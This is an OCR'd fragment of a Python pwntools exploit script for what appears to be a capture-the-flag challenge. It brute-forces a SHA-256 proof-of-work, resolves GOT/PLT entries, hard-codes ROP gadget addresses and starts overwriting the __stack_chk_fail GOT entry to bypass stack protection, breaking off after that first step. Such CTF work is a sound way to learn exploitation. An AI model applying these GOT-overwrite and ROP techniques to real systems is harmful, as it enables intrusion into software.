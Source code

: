     
    def change_2_data():
    	sl('.data')
    
    def change_2_text():
    	sl('.text')
    
    def input_data(data):
    	payload = 'pop_ret' + ' ' + str(pop_ret)
    	sl(payload)
    	sl(data)
    
    def input_code(code):
    	sl(code)
    
    def fuckingsha256():
    	chal = rl().strip('\n')
    	for i0 in range(0x100):
    		for i1 in range(0x100):
    			for i2 in range(0x100):
    				for i3 in range(0x100):
    					sol = chr(i0)+chr(i1)+chr(i2)+chr(i3)
    					if(sha256(chal + sol).digest().startswith('\0\0\0')):
    						return sol
    
    def hack():
    	raw_input()
    
    	if local == 0:
    		res = fuckingsha256()
    		sl(res)
    	fgets_got = pwn_elf.got['fgets']
    	fgets_plt = pwn_elf.plt['fgets']
    	puts_plt = pwn_elf.plt['puts']
    	strncmp_got = pwn_elf.got['strncmp']
    	strncmp_plt = pwn_elf.plt['strncmp']
    	mmap_got = pwn_elf.got['mmap']
    	stack_chk_fail_got = pwn_elf.got['__stack_chk_fail']
    	addr_bss = pwn_rop.section('.bss') + 0x200
    	
    	vul_func = 0x08048680
    	stdin_addr = 0x0804D080
    	leave_ret = 0x0804AC56
    	register_val = 0x0804DA24
    	pop_ret = 0x08048545
    	ppp_ret = 0x0804b339
    	mapp0 = 0x4000000
    	ret = 0x0804852e
    
    	# step 1: overwrite __stack_chk_fail's got to the address of ret
    	
    	# Method 2: use lw/sw
    	change_2_text()
    	code = 'li $t0,' + str(leave_ret)
    	input_code(code)
    	offset = (stack_chk_fail_got - mapp0 - 4)/8 + 0xE0000000
    	print hex(offset)
    	code = 'li $t1,' + str(offset)
    	input_code(code)
    	code = 'sw $t0,$t1'
    	input_code(code)
    